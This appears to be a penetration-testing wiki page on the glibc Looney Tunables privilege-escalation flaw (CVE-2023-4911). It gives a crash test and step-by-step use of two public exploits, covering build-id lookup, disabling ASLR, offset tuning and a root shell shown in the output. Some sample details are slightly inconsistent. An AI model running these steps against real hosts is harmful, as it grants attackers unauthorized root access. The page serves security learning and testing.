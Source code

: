 ```yaml
---
description: CVE-2023-4911
---
```


# Looney Tunables

## Theory

CVE-2023-4911 (Looney Tunables) is a buffer overflow vulnerability in GNU C Library’s dynamic loader’s,  known as `ld.so`, when processing the GLIBC\_TUNABLES environment variable. This issue could allow a local attacker to use maliciously crafted GLIBC\_TUNABLES environment variables when launching binaries with SUID permission to execute code with elevated privileges.

This vulnerability was introduced in **glibc version 2.34** through commit 2ed18c. The vulnerability affects recent versions of major Linux distributions such as **RHEL, Ubuntu, Fedora , Debian, Amazon Linux, Gentoo** and **any other distribution that uses glibc**.

The vulnerability impacts major Linux distributions, including:&#x20;

* Fedora 37 and 38
* Ubuntu 22.04 and 23.04
* Debian 12 and 13

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To test directly whether the target is vulnerable, we can use the following command (vulnerable if there is a segmentation error):

```bash
$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

If glibc version is **greater or equal than 2.34**, target may be vulnerable

```bash
$ ldd --version
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Or we can retreive the version of glibc using the following C++ code

{% code title="glibc.cpp" %}
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <gnu/libc-version.h>

int main(int argc, char *argv[])
{
    // Print glibc version
    printf("GNU libc version: %s\n", gnu_get_libc_version());
    exit(EXIT_SUCCESS);
}
```
{% endcode %}

Compile the above code using the following command:

```bash
g++ -std=c++11 glibc.c -o glibc
```

And execute it

```bash
./glibc
GNU libc version: 2.31
```
{% endtab %}

{% tab title="Exploit - 1" %}
Using [gnu-acme.py](https://haxx.in/files/gnu-acme.py) (python) from bl4sty, we can abuse CVE-2023-4911 and easily **adapt it to different ld.so build versions**.

If the build identifier of your ld.so target matches one of the script's targets. The exploit will work straight away.

```
python3 gnu-acme.py
```

If not, we have to find usable offsets for the ld.so build id. First you will have to find the target build identifier.

```bash
# Method 1: run gnu-acme.py
$ python3 gnu-acme.py
[...]
error: no target info found for build id b7ea093065488e439cf8ff6bc8bc545f5e1717c7

# Method 2: with native tools
$ readelf -n $(which ld.so) | grep "Build ID" | awk '{print $NF}' | xxd -r -p | tail -c 20 | xxd -p -c 20
b7ea093065488e439cf8ff6bc8bc545f5e1717c7
```

Now, on a similar environement (obviously with the same ld.so build version), disable ASLR and run gnu-acme.py. It will find usable offsets.

```bash
# On similar environement as the target
## Disable ASLR (as root)
echo 0 > /proc/sys/kernel/randomize_va_space

## Run gnu-acme.py
python3 gnu-acme.py
[...]
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 620
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 621
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 622
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 623
```

Take one of the working offset and add it to the TARGETS array of the gnu-acme.py script

<pre class="language-python"><code class="lang-python">TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
    "3602eac894717d56555552c84fc6b0e4d6a4af72": 561,
<strong>    "b7ea093065488e439cf8ff6bc8bc545f5e1717c7": 620,
</strong>    "a99db3715218b641780b04323e4ae5953d68a927": 561,
    "a8daca28288575ffc8c7641d40901b0148958fb1": 580,
    "61ef896a699bb1c2e4e231642b2e1688b2f1a61e": 560,
    "9a9c6aeba5df4178de168e26fe30ddcdab47d374": 580,
    "e7b1e0ff3d359623538f4ae0ac69b3e8db26b674": 580,
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
}
</code></pre>

Now, on the target run exploit again !&#x20;

```bash
$ python3 gnu-acme.py
[...]
** ohh... looks like we got a shell? **
whoami
root
```
{% endtab %}

{% tab title="Exploit - 2" %}
Using [this exploit](https://github.com/leesh3288/CVE-2023-4911) from leesh3288, we can abuse CVE-2023-4911.

{% hint style="info" %}
Code has been tested on Ubuntu 22.04.3 with glibc version `2.35-0ubuntu3.3`.&#x20;
{% endhint %}

&#x20;First we need to execute the Python script to generate the malicious libc.so.6

```bash
python3 gen_libc.py
```

Compile the exploit

```shell-session
gcc -o exp exp.c
```

Finally, you can launch the exploit and be patient since the exploitation may take some time (5 to 20 mins).

```bash
$ ./exp
try 100
try 200
[snip]
try 3700
try 3800
# whoami
root
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt" %}

{% embed url="https://tryhackme.com/room/looneytunes" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so" %}
